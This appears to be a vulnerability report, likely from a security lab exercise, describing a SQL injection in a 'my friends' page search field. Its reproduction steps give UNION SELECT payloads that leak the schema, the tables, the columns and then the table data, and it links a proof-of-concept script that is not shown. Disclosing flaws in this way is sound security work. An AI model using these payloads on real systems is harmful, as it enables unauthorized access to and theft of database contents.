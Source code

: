 # Vulnerability 9: SQL Injection in my friends page allows to leak database information

- Vulnerability: SQL Injection
- Where: `search` in my friends page
- Impact: Allows access to all database information with any login

## Steps to reproduce

1. Insert `z' UNION SELECT TABLE_NAME,2,3,4,5 FROM TABLES #` in search field
2. Take note of the name of the schema leaked in the error message
3. Insert `z' UNION SELECT TABLE_NAME,2,3,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'facefivedb' #` in search field to leak list of tables
4. Insert `z' UNION SELECT COLUMN_NAME,2,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table}' #` in search field to leak columns and data types of a table
5. Insert `z' UNION SELECT {column1},2,{column2},{column3},5 FROM {table} #` in search field to leak information in a table

[(POC)](SQLvuln9.py)

